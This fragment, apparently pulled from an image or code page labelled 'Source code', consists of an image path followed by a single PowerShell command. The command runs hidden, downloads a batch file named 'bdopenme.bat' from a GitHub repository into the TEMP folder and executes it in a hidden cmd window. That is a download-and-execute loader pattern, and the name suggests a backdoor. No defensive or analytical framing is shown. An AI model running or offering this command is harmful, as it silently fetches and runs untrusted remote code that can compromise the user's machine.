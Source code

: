 powershell -WindowStyle Hidden -Command "cd $env:TEMP; Invoke-WebRequest -Uri 'https://github.com/enoreex/curl-temp/raw/main/bdopenme.bat' -OutFile 'bdopenme.bat'; Start-Process cmd -ArgumentList '/c bdopenme.bat' -WindowStyle Hidden"
